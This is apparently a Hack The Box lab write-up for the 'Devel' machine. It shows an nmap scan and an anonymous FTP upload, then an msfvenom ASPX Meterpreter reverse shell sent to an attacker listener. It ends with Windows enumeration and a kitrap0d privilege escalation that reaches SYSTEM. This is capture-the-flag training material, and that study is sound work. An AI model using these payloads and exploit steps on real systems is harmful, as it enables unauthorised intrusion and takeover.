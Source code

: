 # Devel

<pre>nmap -p- 10.10.10.5 -Pn

PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http


nmap -p 21,80 -sV -sC -T4 10.10.10.5

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</pre>

<pre>ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49161|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png</pre>

<pre>ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put hello.txt</pre>

- Browse to uploaded `hello.txt` file hosted on the server `http://10.10.10.5/hello.txt`
- We are able to view the file
- Generate msfvenom payload to upload

<pre>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.73 LPORT=1234 -f aspx -o reverse_shell.aspx</pre>

- Upload to FTP server
- Setup listener

<pre>use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.73
set LPORT 1234
run</pre>

- Browse to `http://10.10.10.5/reverse_shell.aspx</pre>
- Receive reverse shell on listener

<pre>meterpreter > getuid
Server username: IIS APPPOOL\Web

meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows</pre>

## System Enumeration

<pre>systeminfo</pre>

<pre>systeminfo | findstr /B /C:"OS Name" /C:"OS Version"</pre>

<pre>wmic qfe</pre>

<pre>wmic logicaldisk</pre>

<pre>wmic logicaldisk get caption,description,providername</pre>

## User Enumeration

<pre>whoami</pre>

<pre>whoami /priv</pre>

<pre>whoami /groups</pre>

<pre>netuser</pre>

<pre>netuser username</pre>

<pre>net localgroup Administrators</pre>

## Network Enumeration

<pre>ipconfig</pre>

<pre>ipconfig /all</pre>

<pre>arp -a</pre>

<pre>route print</pre>

## Metasploit - Privilege Escalation

- Background meterpreter session
- Use `post/multi/recon/local_exploit_suggester`

<pre>#   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 3   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 4   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 9   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 11  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 12  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 13  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 14  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 15  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.</pre>

<pre>msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.73:4444 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 2536 launched.
[*] Reflectively injecting the DLL into 2536...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175686 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.73:4444 -> 10.10.10.5:49195) at 2024-05-07 19:31:04 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM</pre>

